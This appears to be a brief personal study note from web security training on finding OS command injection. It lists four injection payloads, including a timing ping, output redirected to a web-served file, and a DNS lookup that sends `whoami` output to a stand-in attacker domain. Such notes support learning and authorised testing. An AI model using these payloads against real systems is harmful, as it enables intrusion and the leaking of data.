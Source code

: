### Where to look

- Look for parameters in the URL or POST body that may  pass values to an OS level command line. 

### What to try

- Regular Command Injection: `& echo aiwefwlguh &`
- Time Based Blind Command Injection: `& ping -c 10 127.0.0.1 &`
- Redirected Output Blind Command Injection: `& whoami > /var/www/static/whoami.txt &`
- DNS Based OAST Blind Command Injection: ``& nslookup `whoami`.kgji2ohoyw.web-attacker.com &`

### More Details

More details can be found at [[Cyber Security/Learning/Web Security Academy/Command Injection|Command Injection]]

